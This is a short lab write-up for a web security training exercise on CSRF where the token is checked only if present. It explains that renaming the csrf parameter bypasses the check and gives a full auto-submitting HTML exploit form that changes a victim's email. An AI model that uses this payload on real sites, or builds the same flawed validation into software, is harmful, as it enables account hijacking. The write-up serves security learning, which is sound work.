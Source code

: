 
# CSRF where token validation depends on token being present

## What do we know?
- site is vulnerable to Cross Site Request Forgery attack
- site implements CSRF token as one of POST parameters

## What do we have to do?
- change viewer's email address

## Solution:
Lab title tells that vulnerable site checks if request parameter is present, my first thought was "What if I don't pass csrf paremeter".
I had logged into website with given credentials and changed email. In Burp Suite i saw that website uses POST method to change email. 

I tried to send request without CSRF token, but it failed. I knew i had to do something with it, so i tried changing it's value, with no effect. Finally I decided to change csrf field into something different and it worked. My request ad "a" field instead of "csrf"

I went to exploitation server and prepared script sending request as above.

## Final payload looks like this:
File:

`/exploit.html`

Head:

`HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8`

Body: 
```
<html>
  <body>
    <form action="https://"lab-id-here".web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="new@email" />
      <input type="hidden" name="a" value="bAO48xPk9Cmv3VWJbAO48xPk9Cmv3VWJ" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html> 
```
